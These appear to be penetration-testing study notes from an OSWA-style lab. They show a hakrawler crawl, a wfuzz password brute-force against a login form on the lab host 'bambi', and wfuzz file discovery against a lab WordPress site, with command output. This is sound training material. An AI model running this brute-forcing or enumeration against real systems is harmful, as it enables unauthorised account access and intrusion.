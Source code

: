 #hakrawler
```bash
echo "http://sumo" | hakrawler -u
```
-----
#### Wfuzz
#wfuzz
```bash
┌──(root💀gobots)-[03Dec2024 21:45:57]-[/home/…/SUT/OSWA/challenge_labs/bambi]                                                   
└─# wfuzz -c -z file,/home/kali/SUT/OSWA/challenge_labs/bambi/passwords.txt --hc 404 -H "Content-Type: application/x-www-form-urlencoded" -d "username=Sam&password=FUZZ" http://bambi/dev/index.php       
000000266:   200        132 L    325 W      4835 Ch     "PHOENIX"                                       
000000265:   200        132 L    325 W      4835 Ch     "FARM"                                          
000000249:   200        132 L    325 W      4835 Ch     "FluffySweetiePie"                              
000000263:   200        132 L    325 W      4835 Ch     "OCTOBER"                                       
000000253:   200        132 L    323 W      4892 Ch     "ANGELES"                                       
000000260:   200        132 L    325 W      4835 Ch     "LEVI"       
```
##### File Discovery

```bash
kali@kali:~$ export URL="http://offsecwp:80/FUZZ"  
kali@kali:~$ echo $URL                        
http://offsecwp:80/FUZZ
```
`wfuzz` example
- where  `-c` to display color output`
- where  `-z` file to specify the input source`
- where `--hc` to avoid non-existent and erroneous responses

After several minutes, our scan will complete, and we'll notice that files were discovered. We also discovered wp-login.php, a file we identified in previous sections with Burp Suite's Intercept and Repeater. Further there are two reasons that we did not discover directories.
```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/FUZZ
Total requests: 17128

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000028:   200        100 L    450 W      6798 Ch     "wp-login.php"
000000001:   301        0 L      0 W        0 Ch        "index.php"         
000000005:   405        0 L      6 W        42 Ch       "xmlrpc.php"        
000000122:   200        97 L     823 W      7345 Ch     "readme.html"        
000000198:   200        384 L    3177 W     19915 Ch    "license.txt"      
000000255:   200        0 L      0 W        0 Ch        "wp-config.php"   
000000289:   200        4 L      15 W       135 Ch      "wp-trackback.php"    
000000369:   500        0 L      0 W        0 Ch        "wp-settings.php"
000000371:   301        0 L      0 W        0 Ch        "."        
000000405:   200        0 L      0 W        0 Ch        "wp-cron.php" 
000000440:   200        0 L      0 W        0 Ch        "wp-blog-header.php"  
000000454:   200        11 L     23 W       221 Ch      "wp-links-opml.php"
```